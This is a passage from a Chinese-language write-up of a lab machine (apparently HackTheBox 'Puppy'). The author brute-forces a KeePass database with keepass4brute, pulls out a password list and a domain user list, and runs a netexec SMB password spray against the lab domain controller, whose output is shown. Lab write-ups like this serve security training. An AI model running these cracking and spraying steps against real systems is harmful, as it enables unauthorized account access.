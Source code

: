 

kdbx是KeePass软件的数据库文件格式，我们get下来


![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/13da92a80ccb4a7fbfe79f7855776043.png)


发现需要密码，爆破试试，自带的约翰不行


下载工具：
[keepass4brute](https://github.com/r3nt0n/keepass4brute)


![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/f67c6999139c4af8b4c81169869b926b.png)


然后看样子要一周才能全部跑完，哈哈，那既然如此，我们不用傻傻等待，既然是靶机偷看一下答案：`liverpool`，成功进入：


![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/a3de32119b0c413d9d79bbc0312827c8.png)

## 密码喷撒

里面五组密码做成密码字典：

```
HJKL2025!
Antman2025!
JamieLove2025!
ILY2025!
Steve2025!
```

最开始`rpc`中的用户做成用户字典：

```
Administrator
Guest
krbtgt
levi.james
ant.edwards
adam.silver
jamie.williams
steph.cooper
steph.cooper_adm
```

```bash
┌──(root㉿kali)-[/home/kali/Desktop]
└─# netexec smb 10.10.11.70 -u user.txt -p passwd5.txt
SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)               
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\Administrator:HJKL2025! STATUS_LOGON_FAILURE
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\Guest:HJKL2025! STATUS_LOGON_FAILURE
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\krbtgt:HJKL2025! STATUS_LOGON_FAILURE
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\levi.james:HJKL2025! STATUS_LOGON_FAILURE
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\ant.edwards:HJKL2025! STATUS_LOGON_FAILURE
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\adam.silver:HJKL2025! STATUS_LOGON_FAILURE
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\jamie.williams:HJKL2025! STATUS_LOGON_FAILURE
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\steph.cooper:HJKL2025! STATUS_LOGON_FAILURE
```